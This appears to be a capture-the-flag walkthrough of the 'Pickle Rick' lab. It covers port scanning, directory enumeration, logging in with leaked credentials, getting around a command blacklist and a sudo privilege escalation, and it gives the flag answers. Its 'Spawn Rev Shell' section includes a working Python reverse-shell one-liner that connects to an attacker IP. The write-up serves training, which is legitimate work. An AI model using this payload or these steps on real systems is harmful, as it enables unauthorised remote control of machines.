 # Pickle Rick



## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open 10.10.55.99 -oN port_scan.txt          

Nmap scan report for 10.10.55.99
Host is up (0.035s latency).
Not shown: 65524 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

First and foremost, intercept the web requests with Burp Suite to analyze if there is anything unusual.

<figure><img src="../../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

We can see a comment with a user.

```
Username: R1ckRul3s
```



### Dir/File Enum

Check if there is some juicy file using gobuster tool.

{% code title="Directories" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/assets               (Status: 301) [Size: 311] [--> http://10.10.55.99/assets/]
```
{% endcode %}

{% code title="Files" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-files.txt -b 403,404

/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]

```
{% endcode %}

We have discovered the robots.txt that contain this string:

```
Wubbalubbadubdub
```

And a `login.php` page.

Try to login with user and possible password in robots.txt found.

<figure><img src="../../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

We are in!



## Initial Access

Now, we have a Command Panel that allow us to execute some command to Web Server machine.

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

`ls` command works but when we will trying to print a file with `cat` command the portal gives me a error contains "Command disable".

This error suggests us that there is a Black List of commands. We have to search an alternative to print a file, the command `less` can help us.

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

This command bypasses the Black List to read a file.

{% code title="flag1" %}
```
mr. meeseek hair
```
{% endcode %}



### Spawn Rev Shell

Making this request we can obtain a reverse shell

{% code title="Payload" overflow="wrap" %}
```python
export RHOST="10.23.52.142";export RPORT=9009;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



We can found a second flag in the rick's home directory

```bash
cd /home/rick
cat 'second ingredients'

1 jerry tear
```



## Privilege Escalation

Run `linpeass.sh` to find misconfiguration.

```bash
sudo -l

User www-data may run the following commands on ip-10-10-255-84:
    (ALL) NOPASSWD: ALL
```

With this rights we can access as root in easy way

```bash
sudo su
```

And print the last flag

```bash
cat /root/3rd.txt

3rd ingredients: fleeb juice
```



